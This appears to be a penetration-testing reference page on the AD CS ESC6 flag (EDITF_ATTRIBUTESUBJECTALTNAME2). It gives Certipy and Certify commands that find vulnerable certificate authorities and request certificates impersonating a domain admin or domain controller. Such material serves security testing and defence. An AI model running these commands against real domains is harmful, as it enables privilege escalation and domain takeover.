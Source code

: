 # (ESC6) `EDITF_ATTRIBUTESUBJECTALTNAME2`

From UNIX-like systems, [Certipy](https://github.com/ly4k/Certipy) can be used to enumerate info about the CAs, including the "User Specified SAN" flag state which is an alias to the `EDITF_ATTRIBUTESUBJECTALTNAME2` flag.
```bash
certipy find -u "$USER@$DOMAIN" -p "$PASSWORD" -dc-ip "$DC_IP" -stdout | grep "User Specified SAN"
```

> [!TIP]
> By default, Certipy uses LDAPS, which is not always supported by the domain controllers. The `-scheme` flag can be used to set whether to use LDAP or LDAPS.

Once the right template is found (i.e. the default User template), a request shall be made to obtain a certificate, with another high-priv user set as SAN (`subjectAltName`).
```bash
# To specify a user account in the SAN
certipy req -u "$USER@$DOMAIN" -p "$PASSWORD" -dc-ip "$DC_IP" -ca 'ca_name' -template 'vulnerable template' -upn 'domain admin'

# To specify a computer account in the SAN
certipy req -u "$USER@$DOMAIN" -p "$PASSWORD" -dc-ip "$DC_IP" -ca 'ca_name' -template 'vulnerable template' -dns 'dc.domain.local'
```

The certificate can then be used with Pass-the-Certificate to obtain a TGT and authenticate.

From Windows systems, the [Certify](https://github.com/GhostPack/Certify) tool can be used to enumerate info about the CAs, including the "UserSpecifiedSAN" flag state which refers to the `EDITF_ATTRIBUTESUBJECTALTNAME2` flag.
```powershell
Certify.exe cas
```

If the flag is enabled on a CA, certify can then be used to find all enabled templates configured with EKUs allowing for authentication, and allowing low-priv users to enroll.
```powershell
Certify.exe /enrolleeSuppliesSubject
Certify.exe /clientauth
```

Once the right template is found (i.e. the default User template), a request shall be made to obtain a certificate, with another high-priv user set as SAN (`subjectAltName`).
```powershell
Certify.exe request /ca:'domain\ca' /template:"Certificate template" /altname:"admin"
```

The certificate can then be used with Pass-the-Certificate to obtain a TGT and authenticate.